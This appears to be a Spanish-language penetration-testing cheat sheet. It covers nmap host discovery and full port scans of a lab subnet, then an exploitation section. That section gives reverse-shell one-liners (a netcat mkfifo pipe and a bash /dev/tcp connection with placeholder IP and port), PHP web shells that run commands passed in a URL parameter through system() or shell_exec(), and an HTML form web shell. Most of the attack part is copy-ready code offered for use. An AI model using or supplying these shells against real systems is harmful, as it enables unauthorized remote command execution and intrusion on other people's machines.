 #### Procedimiento 2

```bash
Ex: 

ip a
nmap -sn 10.0.2.0/24 #manda paquetes ICMP a ese segmento de red

# Hosts: 10.0.2.43 / 10.0.2.45 / 10.0.2.46 / 10.0.2.53 / 10.0.2.55

sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.43,45,46,53,55 -oN port_scan.txt
grep '^[0-9]' port_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','

# Puertos : 22,25,45,80,445,135,139,49665,49670

nmap --open -p135,139,22,25,45,445,49665,49670,80 -sC -sV 10.0.2.43,45,46,53,55 -Pn -On full_scan.txt
```

### Explotacion

#### Shells

#### Rever Shells

Bash :

```bash
  #Cambiar IP / Port 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc **IP Port** >/tmp/f

bash -i >& /dev/tcp/**IP**/**Port** 0>&1
```

#### WebShell

Cmd

```php
<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>

# NOTA': Puede que si no se interpreta, haya que encodear el ? de la url por un &

<%3Fphp echo "<pre>" . system($_GET['cmd']) . "</pre>"; %3F>

# Con shell_exec

<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```

Cmd search bar

```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
```